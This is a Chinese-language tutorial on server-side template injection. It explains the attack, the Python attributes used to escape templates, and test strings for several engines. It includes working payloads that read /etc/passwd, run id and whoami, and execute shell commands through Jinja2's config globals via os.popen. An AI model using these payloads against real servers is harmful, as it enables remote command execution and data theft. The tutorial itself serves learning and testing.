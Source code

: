 # 服务器端模板注入

服务器模板注入 (SSTI ) 是一种利用公共 Web 框架的服务器端模板作为攻击媒介的攻击方式，该攻击利用了嵌入模板的用户输入方式的弱点。SSTI 攻击可以用来找出 Web 应用程序的内容结构。

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

例如在FLASK中

可以通过http://127.0.0.1:8080?flag={{config}}获取模板引擎的一切配置信息，若针对某个信息可输入{{config.变量名}}

# 注入方法

#### 1、确定使用的引擎

#### 2、查看引擎相关的文档，确定其安全机制以及自带的函数和变量

#### 3、需找攻击面，尝试攻击

# 测试用例

简单的数学表达式，{{ 7+7 }} => 14
字符串表达式 {{ "ajin" }} => ajin
Ruby
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
Java
${7* 7}

Twig
{{7*7}}

Smarty
{php}echo `id`;{/php}

AngularJS
$eval('1+1')

Tornado
引用模块 {% import module %}
=> {% import os %}{{ os.popen("whoami").read() }}

Flask/Jinja2
{{ config.items() }}
{{''.__class__.__mro__[-1].__subclasses__()}}

Django
{{ request }}
{% debug %}
{% load module %}
{% include "x.html" %}
{% extends "x.html" %}

# 使用该攻击方式目的

#### 1、创建对象

#### 2、文件读写

#### 3、远程文件包含

#### 4、信息泄漏

#### 5、提权

# 关于一些关键的属性

``__class__``

python中的新式类（即显示继承object对象的类）都有一个属性 ``__class__`` 用于获取当前实例对应的类，例如 ``"".__class__`` 就可以获取到字符串实例对应的类

``__mro__``

python中类对象的 `__mro__` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

``__globals__``

保存了函数所有的所有全局变量，在利用中，可以使用 ``__init__`` 获取对象的函数，并通过 ``__globals__`` 获取 ``file`` ``os`` 等模块以进行下一步的利用

``__subclasses__()``

python的新式类都保留了它所有的子类的引用，__subclasses__() 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。

因为python中的类都是继承object的，所以只要调用object类对象的 __subclasses__() 方法就可以获取想要的类的对象。

# 常见payload

{{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}

{{ config.class.init.globals['os'].popen('cd xxx&& ls').read() }}